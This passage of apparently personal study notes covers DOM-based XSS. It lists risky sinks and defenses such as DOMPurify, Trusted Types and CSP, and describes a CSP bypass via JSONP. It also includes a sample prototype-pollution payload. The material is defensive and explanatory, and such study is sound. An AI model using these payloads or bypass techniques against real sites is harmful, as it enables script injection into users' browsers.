  Attacker: visit `page#`
- DOM sink examples: innerHTML, outerHTML, insertAdjacentHTML, eval, setTimeout(string),
  document.write, location.href (with javascript: URL), dangerouslySetInnerHTML (React).
- Defense 1: DOMPurify. `DOMPurify.sanitize(input)` before innerHTML assignment.
  Use latest version. Configure ALLOWED_TAGS, FORCE_BODY.
- Defense 2: Trusted Types API.
  `require-trusted-types-for 'script'` in CSP.
  Sinks (innerHTML) only accept TrustedHTML objects.
  Raw string assignment: TypeError → prevents DOM XSS.
  Policy function wraps DOMPurify: `sanitizePolicy.createHTML(input)`.
  Advantage: enforced at browser level, not just convention - can't be accidentally bypassed.
- CSP bypass via JSONP: JSONP endpoint on allowed origin delivers attacker JavaScript.
  Fix: remove JSONP. Don't use CSP wildcards (`*.domain.com`).
- Prototype pollution: `{"__proto__": {"prop": "xss"}}` in merge → pollutes Object.prototype.
  Defense: `Object.freeze(Object.prototype)` + reject __proto__ keys in merge.
- Summary: DOM XSS defense requires sink-level sanitization (DOMPurify) + browser-level
  enforcement (Trusted Types) + CSP that avoids JSONP gaps. Output encoding alone insufficient.